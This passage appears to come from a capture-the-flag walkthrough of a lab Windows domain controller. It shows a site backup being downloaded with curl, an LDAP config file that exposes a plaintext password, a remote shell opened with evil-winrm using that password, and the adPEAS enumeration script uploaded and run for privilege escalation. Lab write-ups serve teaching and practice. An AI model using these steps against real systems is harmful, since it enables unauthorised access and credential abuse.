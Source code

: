 It seems that there is a backup file of the site in the same directory of virtualhosts , let’s try to access the file: `curl http://10.10.11.236/website-backup-27-07-23-old.zip --output file.zip`

In this backup we can find an `.xml` file that contains the **user:pass** of the Raven user:

```xml
cat .old-conf.xml

# output 
<?xml version="1.0" encoding="UTF-8"?>
<ldap-conf xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
   <server>
      <host>dc01.manager.htb</host>
      <open-port enabled="true">389</open-port>
      <secure-port enabled="false">0</secure-port>
      <search-base>dc=manager,dc=htb</search-base>
      <server-type>microsoft</server-type>
      <access-user>
         <user>raven@manager.htb</user>
         <password>R4v3nBe5tD3veloP3r!123</password>
      </access-user>
      <uid-attribute>cn</uid-attribute>
   </server>
   <search type="full">
      <dir-list>raven
         <dir>cn=Operator1,CN=users,dc=manager,dc=htb</dir>
      </dir-list>
   </search>
</ldap-conf>
```

Lets connect with this credentials for the first acces on the Domain Controleur : 

```bash
evil-winrm -u "raven" -p 'R4v3nBe5tD3veloP3r!123' -i "10.10.11.236"
```

## **Privileges escalation :**

Its time to enumerate with [ADpeas](https://github.com/61106960/adPEAS) so upload it on the target and run it : 

```jsx
#uplaod on the target with evilwinrm
upload adPEAS.ps1

# load the script 
. .\adPEAS.ps1

#lauche the script
Invoke-adPEAS
```

ADpeas tells us that ADCS is active on the server and that there is even a CA already present let’s see this more closely: 
